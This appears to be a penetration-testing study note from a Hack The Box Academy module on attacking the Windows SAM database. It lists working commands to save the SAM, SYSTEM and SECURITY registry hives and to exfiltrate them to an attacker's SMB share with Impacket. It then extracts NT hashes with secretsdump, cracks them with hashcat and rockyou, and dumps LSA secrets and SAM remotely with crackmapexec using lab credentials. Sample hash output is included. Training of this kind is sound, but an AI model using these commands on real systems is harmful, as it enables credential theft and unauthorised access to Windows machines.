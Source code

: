 With access to a non-domain joined Windows computer, we can dump the SAM database (passwords) for cracking offline.

### hklm\\sam
Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.

### hklm\\system
Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.

### hklm\\security
Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.

We can use the ==reg.exe== utility to create backups of these.

## reg.exe
Launch `cmd.exe` as `Administrator`.

```cmd
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

*we only need sam and system, but security can be useful as it can contain hashes for caches domain user accounts*

## Create SMB Share

#### Start server on attack box
We can exfiltrate the backup using ==Impacket's smbserver.py== in combination with cmd commands.

- Name: CompData
- Output: /home/ltnbob/Documents
- Options: `- smb2support`

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

#### Move data from victim
```cmd
move sam.save \\<HOST IP>\CompData

move security.save \\<HOST IP>\CompData

move system.save \\<HOST IP>\CompData
```

## Dump the Hashes
Impacket can also dump hashes from the .save files with ==secretsdump.py==.

#### Locate
`locate secretsdump`

#### Run
```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Output:
```shell-session
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:3dd5a5ef0ed25b8d6add8b2805cce06b:::
defaultuser0:1000:aad3b435b51404eeaad3b435b51404ee:683b72db605d064397cf503802b51857:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
sam:1002:aad3b435b51404eeaad3b435b51404ee:6f8c3f4d3869a10f3b4f0522f537fd33:::
rocky:1003:aad3b435b51404eeaad3b435b51404ee:184ecdda8cf1dd238d438c4aea4d560d:::
ITlocal:1004:aad3b435b51404eeaad3b435b51404ee:f7eb9c06fafaa23c4bcf22ba6781c1e2:::
```

Format:
`uid:rid:lmhash:nthash`

## Crack the Hashes
Populate a .txt with ==NT hashes== 
`sudo vim hashestocrack.txt`

Run hashcat against ==file==
`sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt`

## Remote Dumping
#### Dumping LSA Secrets Remotely
```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

#### Dumping SAM Remotely
```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

[[Demo Attacking SAM|Demo Attacking SAM]]
